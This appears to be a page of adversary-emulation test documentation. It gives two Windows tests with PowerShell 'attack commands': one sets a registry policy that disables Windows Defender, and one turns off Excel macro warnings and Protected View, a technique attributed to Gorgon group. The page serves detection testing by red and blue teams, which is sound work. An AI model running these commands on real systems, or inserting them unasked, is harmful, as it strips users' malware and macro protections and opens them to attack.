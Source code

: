 



<br/>
<br/>

## Atomic Test #16 - Tamper with Windows Defender Registry
Disable Windows Defender from starting after a reboot. Upen execution, if the computer is rebooted the entire Virus and Threat protection window in Settings will be
grayed out and have no info.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)


```powershell
Set-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1
```

#### Cleanup Commands:
```powershell
Set-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 0
```





<br/>
<br/>

## Atomic Test #17 - Disable Microsoft Office Security Features
Gorgon group may disable Office security features so that their code can run. Upon execution, an external document will not
show any warning before editing the document.


https://unit42.paloaltonetworks.com/unit42-gorgon-group-slithering-nation-state-cybercrime/

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!


```powershell
New-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel"
New-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security"
New-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security" -Name "VBAWarnings" -Value "1" -PropertyType "Dword"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -Name "DisableInternetFilesInPV" -Value "1" -PropertyType "Dword"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -Name "DisableUnsafeLocationsInPV" -Value "1" -PropertyType "Dword"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -Name "DisableAttachementsInPV" -Value "1" -PropertyType "Dword"
```
